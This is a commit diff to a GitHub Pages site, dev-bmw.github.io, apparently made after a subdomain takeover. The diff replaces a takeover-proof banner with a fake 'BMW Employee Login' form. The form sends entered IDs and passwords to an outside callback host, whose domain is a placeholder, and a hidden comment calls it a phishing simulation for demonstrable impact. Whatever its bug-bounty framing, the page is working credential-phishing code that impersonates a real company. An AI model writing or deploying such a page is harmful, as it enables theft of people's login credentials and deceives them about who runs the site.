

Before and after one commit to dev-bmw/dev-bmw.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-936 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,26 +1,18 @@
 <!DOCTYPE html>
 <html lang="en">
   <head>
-    <meta charset="UTF-8" />
-    <title>Takeover Confirmed</title>
-    <style>
-      body {
-        background-color: #1a1a1a;
-        color: #f2f2f2;
-        font-family: monospace;
-        text-align: center;
-        padding-top: 100px;
-      }
-      h1 {
-        color: #ff4c4c;
-      }
-    </style>
+    <meta charset="UTF-8">
+    <title>BMW Secure Portal</title>
   </head>
   <body>
-    <h1>✅ Subdomain Takeover Confirmed</h1>
-    <p>This content is served from the affected subdomain.</p>
-    <p>Manual control verified by: <strong>@Grimhack691</strong></p>
-    <p>Platform: GitHub Pages</p>
-    <p>This takeover is factual, reproducible, and defensible.</p>
+    <h1>BMW Employee Login</h1>
+    <form action="https://callback.<tu-dominio>.com/collect" method="POST">
+      <input type="text" name="username" placeholder="Employee ID"><br><br>
+      <input type="password" name="password" placeholder="Password"><br><br>
+      <input type="submit" value="Login">
+    </form>
+    <p style="font-size: 10px; color: gray;">
+      <!-- Handle-controlled // phishing simulation for demonstrable impact -->
+    </p>
   </body>
 </html>
```
